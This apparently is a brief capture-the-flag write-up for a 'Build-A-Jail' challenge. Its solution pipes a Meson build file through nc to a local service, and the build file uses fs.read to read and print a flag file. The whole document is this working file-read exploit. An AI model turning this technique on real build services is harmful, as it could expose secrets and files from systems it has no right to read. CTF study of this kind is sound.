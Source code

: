 # Build-A-Jail

Tired of escaping from jails? Now you can build one using [The Meson Build System](https://mesonbuild.com/).  

## Solution

```bash
(cat << _EOF; sleep 10) | nc localhost 1337 | grep 'Message:'
project('foo','c')
fs = import('fs')
flag = fs.read('flag')
message(flag)
EOF
_EOF
```
